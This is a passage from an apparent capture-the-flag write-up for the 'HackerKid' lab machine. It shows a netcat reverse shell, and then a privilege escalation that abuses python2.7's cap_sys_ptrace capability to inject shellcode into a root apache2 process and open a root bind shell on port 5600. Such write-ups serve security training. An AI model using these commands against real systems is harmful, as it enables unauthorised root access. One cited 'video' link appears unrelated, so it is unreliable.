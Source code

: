 

    Local Machine

    root@kali ~/D/M/HackerKid [1]# nc -lnvp 4444                                                    
    listening on [any] 4444 ...                                                                     
    connect to [10.0.0.44] from (UNKNOWN) [10.0.0.58] 43452
    bash: cannot set terminal process group (686): Inappropriate ioctl for device
    bash: no job control in this shell
    saket@ubuntu:~$ 

# 3. Privilege Escalation

After gaining access to the system, I ran ***[linPeas][3]*** and found out an interesting file.

    saket@ubuntu:~$ /usr/sbin/getcap /usr/bin/python2.7
    /usr/bin/python2.7 = cap_sys_ptrace+ep

Using this [***video***][4] and this [***article***][5] I was able to exploit the "***SYS_PTRACE capability***".

    root         836       1  0 09:09 ?        00:00:00 /usr/sbin/apache2 -k start

    saket@ubuntu:/tmp/exploit$ python2.7 inject.py 836
    python2.7 inject.py 836
    Instruction Pointer: 0x7fc1c1a2f0daL
    Injecting Shellcode at: 0x7fc1c1a2f0daL
    Shellcode Injected!!
    Final Instruction Pointer: 0x7fc1c1a2f0dcL

>

    $ ss -tnlp

    LISTEN    0         0                  0.0.0.0:5600             0.0.0.0:*                                                                                       
We can connect to the remote machine from our local machine.

    root@kali ~/D/M/HackerKid# nc 10.0.0.58 5600                                                    
    id -a                                                                                           
    uid=0(root) gid=0(root) groups=0(root)


[1]: "https://portswigger.net/web-security/xxe"

[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/XXE%20PHP%20Wrapper.xml"

[3]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"

[4]: "https://www.youtube.com/watch?v=dQw4w9WgXcQ"


[5]: "https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc"